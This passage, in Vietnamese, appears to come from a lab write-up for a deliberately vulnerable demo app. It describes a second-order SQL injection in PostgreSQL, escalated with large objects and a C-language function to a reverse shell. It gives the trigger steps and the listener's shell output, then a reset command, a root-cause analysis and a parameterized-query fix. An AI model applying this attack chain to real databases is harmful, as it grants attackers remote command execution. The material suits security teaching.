`CREATE FUNCTION` tham chiếu path không cần ghi đuôi file.

Gửi payload vào `email` bằng `POST /profile/update`, trigger bằng
`GET /profile?id=3`, rồi quan sát Python listener.


Listener sẽ nhận kết nối:

```text
CONNECTED from 192.168.1.x:xxxxx
sh> id
uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
sh> whoami
postgres
sh> pwd
/var/lib/postgresql/data
```




#### Reset Hướng 2

Reset database về trạng thái trước demo:

```powershell
docker compose exec -T postgres psql -U postgres -d bluemarket -v ON_ERROR_STOP=1 -c "DROP FUNCTION IF EXISTS rev_shell(text, integer); SELECT CASE WHEN EXISTS (SELECT 1 FROM pg_largeobject_metadata WHERE oid = 55001::oid) THEN lo_unlink(55001) ELSE 0 END; UPDATE users SET email = 'lan.store@bluemarket.local', description = 'Seller for office equipment, work accessories, and operations tools.' WHERE username = 'lan_store';"
docker compose restart postgres web nginx
```

File `.so` trên host vẫn được giữ lại:

```text
postgres/artifacts/pg_rev_shell.so
```

### Root cause

Lỗi chính là second-order SQL Injection do backend dùng dữ liệu đã lưu trong
database như một phần của câu SQL mới.

```text
1. Seller kiểm soát được email profile.
2. Email được lưu vào bảng users.
3. Route /profile đọc email từ database.
4. Seller Activity Report nối email trực tiếp vào SQL.
5. Query chạy bằng role extension_user có quyền quá cao.
6. Role này có thể dùng Large Object, lo_export và CREATE FUNCTION LANGUAGE C.
```

Payload không cần thực thi ngay lúc update. Nó nằm trong database và chỉ được
kích hoạt khi chức năng profile dùng lại email.

Trong fixed mode, backend dùng parameterized query:

```php
$activity = $activityDb->params(
    'SELECT title, body, created_at
     FROM posts
     WHERE author_email = $1
     ORDER BY created_at DESC',
    [$user['email']]
);
```

Khi dùng parameter `$1`, email chỉ còn là dữ liệu và không thể trở thành cú
pháp SQL. Fixed mode cũng dùng database role ít quyền hơn thay vì
`extension_user`.
